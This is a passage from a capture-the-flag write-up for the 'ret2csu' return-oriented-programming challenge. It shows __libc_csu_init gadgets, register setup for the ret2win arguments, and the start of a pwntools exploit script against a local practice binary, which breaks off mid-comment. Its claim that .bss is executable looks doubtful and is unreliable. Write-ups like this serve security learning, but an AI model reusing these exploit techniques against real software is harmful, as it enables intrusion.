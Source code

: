 Next step is determining the correct or desired values for **rbx, rbp and r12** registers because 0x41..., 0x42...., 0x43... are not valid memory addresses.For execution of second rop gadget chain, we need to set right values of `rbp` and `rbx` due to a loop conditional.

```nasm
   0x0000000000400680 <+64>:	mov    rdx,r15
   0x0000000000400683 <+67>:	mov    rsi,r14
   0x0000000000400686 <+70>:	mov    edi,r13d
   0x0000000000400689 <+73>:	call   QWORD PTR [r12+rbx*8]
   0x000000000040068d <+77>:	add    rbx,0x1
   0x0000000000400691 <+81>:	cmp    rbp,rbx
   0x0000000000400694 <+84>:	jne    0x400680 <__libc_csu_init+64>
   0x0000000000400696 <+86>:	add    rsp,0x8
```

Second gadget starts at **0x0000000000400680**,in which we are set values of rdi,r14 and rdx with correct argument values. Set values of **rbx** and **rbp** correctly so that conditional **cmp** is always true. Because of add instruction of 1 to rbx, `rbx` value needs to be 0 and `rbp` value to 1. when the registers are compared, the values are equal and Zero flag is set.

NB: "Adjust values in payload script and single step to confirm the validity of new values in the memory."

For register **r12**, the address should lie in executable memory address. The **.bss** section is executable, therefore r12 should be set to memory address of bss section. After executing our second rop chain gadget, we need to adjust the stack as shown in the exploit code to avoid segmentation fault.

Lastly we need to control the **rdi** register with the value **0xdeadbeefdeadbeef**. Because we have full control of rdx and rsi register, next is to look for a `pop rdi, ret` gadget.

```nasm
  0x004006a3                 5f  pop rdi
  0x004006a4                 c3  ret
```

Now we can pass the **0xdeadbeefdeadbeef** argument to the ret2win function.Now we have all the correct values of rdi, rsi and rdx correctly set, calling the ret2win function will result to us getting the correct flag.

The full code of the rop chain is as shown below.

```python
import pwn

pwn.context.encoding = "latin-1"
pwn.warnings.simplefilter("ignore")
pwn.context.arch = "amd64"
io = pwn.process('./ret2csu')

#arguments passed to ret2win function ret2win(arg1, arg2, arg3)
arg1 =pwn.p64(0xdeadbeefdeadbeef)
arg2 =pwn.p64(0xcafebabecafebabe)
arg3 =pwn.p64(0xd00df00dd00df00d)

ret2win_addr =pwn.p64(io.elf.plt['ret2win'])   #resolve address of ret2win function
pop_rbx_rbp_r12_r13_r14_r15_addr = pwn.p64(0x0040069a)  #first stage gadget
dereference_pointer = pwn.p64(0x00600e48)  #bss area which is executable
stage2_addr = pwn.p64(0x00400680)  #addr of second stage rop chain
pop_rdi = pwn.p64(0x004006a3)

# ropchains
#stage1 ropchain
'''
            0x0040069a      pop   rbx
│           0x0040069b      pop   rbp
│           0x0040069c      pop   r12
│           0x0040069e      pop   r13
│           0x004006a0      pop   r14
```